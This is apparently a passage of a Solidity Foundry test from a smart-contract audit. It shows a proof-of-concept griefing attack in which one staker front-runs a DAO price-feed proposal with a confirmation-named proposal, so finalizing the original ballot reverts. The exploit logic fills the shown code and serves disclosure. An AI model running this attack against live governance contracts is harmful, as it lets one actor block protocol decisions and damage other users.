 ```// SPDX-License-Identifier: BUSL 1.1
       salt.approve(address(staking), type(uint256).max);
        //get salt

        airdrop.claimAirdrop();
        uint256 numWeek = stakingConfig.maxUnstakeWeeks();
        uint256 saltAmount = staking.userXSalt(alice);
        uint256 id = staking.unstake(saltAmount,numWeek);
        
        vm.warp(block.timestamp + numWeek * 1 weeks + 1);

        staking.recoverSALT(id);
        vm.stopPrank();

        //bob config
        vm.startPrank(bob);

        airdrop.claimAirdrop();
        salt.approve(address(staking), type(uint256).max);
        vm.stopPrank();
    }


    function testProposal() public {
       
        

        //bob add proposal to change priceFeed1 and vote
        vm.startPrank(bob);
        uint256 id = proposals.proposeSetContractAddress("priceFeed1",address(forcedPriceFeed),"hello");
        proposals.castVote(id,Vote.YES);

        vm.stopPrank();

        //before proposal(id) can be excuted 
        uint256 time = daoConfig.ballotMinimumDuration();
        vm.warp(block.timestamp + time - 1);


        //alice attack and add proposal to prevent priceFeed1 proposal change to stage two

        vm.startPrank(alice);

        uint256 totalStaked = staking.totalShares(PoolUtils.STAKED_SALT);

        // calculate amount to stake and stake
        uint256 up = totalStaked * daoConfig.requiredProposalPercentStakeTimes1000();
        uint256 down = 100 * 1000 - daoConfig.requiredProposalPercentStakeTimes1000();
        uint256 amount = up / down + 1;
        staking.stakeSALT(amount);

        proposals.proposeSetContractAddress("priceFeed1_confirm",address(forcedPriceFeed),"hello");

        vm.stopPrank();

        //proposal(id) can be excuted 
        vm.warp(block.timestamp + 2);

        vm.startPrank(bob);

        vm.expectRevert("Cannot create a proposal similar to a ballot that is still open");
        dao.finalizeBallot(id);
        vm.stopPrank();       
```